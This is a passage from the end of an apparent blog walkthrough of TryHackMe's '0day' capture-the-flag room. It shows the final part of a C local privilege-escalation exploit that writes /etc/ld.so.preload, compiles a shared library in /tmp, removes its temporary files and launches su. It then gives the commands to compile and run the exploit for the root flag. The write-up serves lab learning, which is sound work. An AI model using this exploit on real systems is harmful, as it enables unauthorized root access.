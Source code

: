 ```c

    fprintf(stderr,"/etc/ld.so.preload created\n");
    fprintf(stderr,"creating shared library\n");
    lib = open("/tmp/ofs-lib.c",O_CREAT|O_WRONLY,0777);
    write(lib,LIB,strlen(LIB));
    close(lib);
    lib = system("gcc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w");
    if(lib != 0) {
        fprintf(stderr,"couldn't create dynamic library\n");
        exit(-1);
    }
    write(fd,"/tmp/ofs-lib.so\n",16);
    close(fd);
    system("rm -rf /tmp/ns_sploit /tmp/ofs-lib.c");
    execl("/bin/su","su",NULL);
}
```

Let's go ahead and save this and upload it to the box.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691130670050/fbae3739-464d-4bfa-9393-aa4f873482b4.png){: .center-image }

Now let's prepare it and get that tasty root flag.

```bash
gcc exploit.c -o exploit
./exploit
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691130689345/a164e9e4-beef-4d92-a2b9-1a8e9db829b1.jpeg){: .center-image }

I hope you enjoyed this walkthrough of the [0day](https://tryhackme.com/room/0day) CTF found on [TryHackMe](https://tryhackme.com). Happy Hacking!